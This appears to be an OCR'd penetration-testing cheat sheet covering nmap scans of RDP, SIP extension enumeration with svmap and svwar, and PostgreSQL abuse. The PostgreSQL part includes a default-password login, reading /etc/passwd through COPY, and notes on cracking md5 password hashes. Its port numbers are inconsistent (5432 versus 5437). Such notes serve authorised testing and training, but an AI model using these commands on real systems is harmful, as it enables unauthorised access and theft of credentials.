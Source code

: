 RDP (3389/tcp)

Version detection + NSE scripts
    
    nmap -Pn -sV -p 3389 --script="banner,(rdp* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -oN "tcp_3389_rdp_nmap.txt" <hostname>

SIP (5060/udp)
Scans for SIP devices on network

svmap <hostname>
Identifies active extensions on PBX

svwar -m INVITE -e 200-250 <hostname>

### PostgreSQL

PostgreSQL (5432/tcp)

Log into postgres remotely

    PGPASSWORD=postgres psql -h <hostname> -p 5437 -U postgres

List databases

    \list
    SELECT datname FROM pg_database;

Use postgres database

    \c postgres

List tables

    \d

Describe table

    \d table

Check if current user superuser (on = yes, off = no)

    SELECT current_setting ('is_superuser');

Get user roles

    \du+

Check user’s privileges over table (pg_shadow)

    SELECT grantee, privilege_type FROM information_schema.role_table_grants WHERE table_name='pg_shadow';

Read file (/etc/passwd)

    CREATE TABLE demo(t text);
    COPY demo FROM '/etc/passwd';
    SELECT * FROM demo;

Read usernames and password hashes

Postgresql password hash format: md5(secret || username) where || denotes string concatenation (remove md5 before cracking hash)
